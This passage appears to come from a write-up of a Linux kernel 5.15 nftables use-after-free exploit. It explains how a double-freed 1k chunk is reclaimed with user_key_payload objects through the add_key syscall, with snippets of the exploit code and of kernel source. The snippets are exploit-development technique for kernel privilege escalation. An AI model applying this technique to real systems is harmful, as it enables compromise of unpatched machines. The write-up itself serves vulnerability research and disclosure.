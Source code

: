 ```c
prepare_nftables(nl);

printf("[*] now trigger UAF...\n");
trigger_uaf(nl, NOCG_TARGET_SET_SIZE);
```
Triggering the vulnerability to achieve double free is almost the same as with `lts-6.1.31` exploit except that the size of the double-freed chunk is set to 1k (1024).

- [include/keys/user-type.h:user_key_payload](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/keys/user-type.h?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n27)
```c
struct user_key_payload {
	struct rcu_head	rcu;		/* RCU destructor */
	unsigned short	datalen;	/* length of this data */
	char		data[] __aligned(__alignof__(u64)); /* actual data */
};
```
However, unlike the `lts-6.1.31` exploit, the `struct msg_msg` objects are no longer utilizable because they would be allocated from `kmalloc-cg` slabs. Thus, the exploit employs `struct user_key_payload` object, which gives the capability to control chunks except for the first 0x18 (24) bytes.

- [exploit/extra-refined/exploit.c#L1093](../exploit/extra-refined/exploit.c#L1093)
```c
// overlapping user_key_payload and nft_set
memset(buf, 0, 0x200);
if ((key = add_key("user", "abcdefghijklmnop", buf, 0x1f8, KEY_SPEC_PROCESS_KEYRING)) < 0)
	perror("add_key");
```
The `struct user_key_payload` objects are allocated to reclaim the one of double-freed chunks by `add_key` syscall. Note that the length argument for `add_key` syscall is set to 0x1f8 (504). This is because of the allocation pattern of `struct user_key_payload`.

- [security/keys/key.c:add_key()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/security/keys/key.c?h=linux-5.15.y&id=f48aeeaaa64c628519273f6007a745cf55b68d95#n816)
```c
SYSCALL_DEFINE5(add_key, const char __user *, _type,
		const char __user *, _description,
		const void __user *, _payload,
		size_t, plen,
		key_serial_t, ringid)
{
// ...
	/* pull the payload in if one was supplied */
	payload = NULL;

	if (plen) {
		ret = -ENOMEM;
		payload = kvmalloc(plen, GFP_KERNEL);
		if (!payload)
			goto error2;

		ret = -EFAULT;
		if (copy_from_user(payload, _payload, plen) != 0)
			goto error3;
	}

// ...

	/* create or update the requested key and add it to the target
	 * keyring */
	key_ref = key_create_or_update(keyring_ref, type, description,
				       payload, plen, KEY_PERM_UNDEF,
				       KEY_ALLOC_IN_QUOTA);
// ...
```